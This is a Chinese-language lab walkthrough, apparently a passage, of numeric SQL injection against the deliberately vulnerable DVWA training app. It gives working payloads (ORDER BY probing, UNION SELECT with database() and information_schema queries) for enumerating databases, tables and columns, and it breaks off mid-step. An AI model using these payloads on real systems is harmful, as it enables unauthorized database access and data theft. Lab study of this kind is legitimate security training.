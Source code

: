 **漏洞利用**
虽然前端使用了下拉选择菜单，但我们依然可以通过抓包改参数，提交恶意构造的查询参数。

1.判断是否存在注入，注入是字符型还是数字型
抓包更改参数id为1′ or 1=1 #

![image]({path}/50.png)




抓包更改参数id为1 or 1=1 #，查询成功：

![image]({path}/51.png)

说明存在数字型注入。

（由于是数字型注入，服务器端的mysql_real_escape_string函数就形同虚设了，因为数字型注入并不需要借助引号。）

2.猜解SQL查询语句中的字段数
抓包更改参数id为1 order by 2 #，查询成功：

![image]({path}/52.png)

抓包更改参数id为1 order by 3 #，报错：

![image]({path}/53.png)

说明执行的SQL查询语句中只有两个字段，即这里的First name、Surname。

3.确定显示的字段顺序
抓包更改参数id为1 union select 1,2 #，查询成功：

![image]({path}/54.png)

说明执行的SQL语句为select First name,Surname from 表 where ID=id…

4.获取当前数据库
抓包更改参数id为1 union select 1,database() #，查询成功：

![image]({path}/55.png)

说明当前的数据库为dvwa。

5.获取数据库中的表
抓包更改参数id为1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #，查询成功：

![image]({path}/56.png)

说明数据库dvwa中一共有两个表，guestbook与users。

6.获取表中的字段名
抓包更改参数id为1 union select 1,group_concat(column_name) from information_schema.columns where table_name=’users ’#，查询失败：

![image]({path}/57.png)

